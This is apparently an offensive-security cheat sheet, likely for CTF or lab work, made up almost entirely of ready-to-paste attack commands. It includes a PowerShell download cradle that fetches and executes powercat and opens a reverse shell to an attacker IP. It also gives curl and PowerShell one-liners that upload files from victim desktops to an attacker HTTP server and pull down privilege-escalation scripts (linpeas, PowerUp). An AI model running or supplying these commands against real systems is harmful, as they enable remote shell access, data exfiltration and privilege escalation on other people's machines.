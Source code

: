 # Cybersecurity Tools and Files
# **PowerCat**
```
https://raw.githubusercontent.com/voidascent/sec/main/powercat.ps1
```
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.10/powercat.ps1');powercat -c 192.168.1.10 -p 9999 -e powershell
```
# HTTP Server for Upload and Download
```bash
```
Curl (Linux and Windows cmd)
Curl Upload
```
curl -F 'file=@**/home/ubuntu/Desktop/flag.txt**' **http://192.168.10.10:8000/**
```
Curl Download
```
curl -O **http://192.168.10.10:8000/**download/linpeas.sh
```
PowerShell (Supported in PowerShell 3.0 and later)
PowerShell Upload
```
$FilePath = "**C:\Users\Administrator\Desktop\flag.txt**"; $Url = "**http://192.168.10.10:8000/**"; Add-Type -AssemblyName System.Net.Http; $client = New-Object System.Net.Http.HttpClient; $content = New-Object System.Net.Http.MultipartFormDataContent; $fileStream = [System.IO.File]::OpenRead($FilePath); $fileContent = New-Object System.Net.Http.StreamContent($fileStream); $content.Add($fileContent, "file", [System.IO.Path]::GetFileName($FilePath)); $result = $client.PostAsync($Url, $content).Result; $result.Content.ReadAsStringAsync().Result
```
PowerShell Download
```
Invoke-WebRequest -Uri "**http://192.168.10.10:8000/download/PowerUp.ps1**" -OutFile "**C:\Users\Administrator\Desktop\PowerUp.ps1**"
```
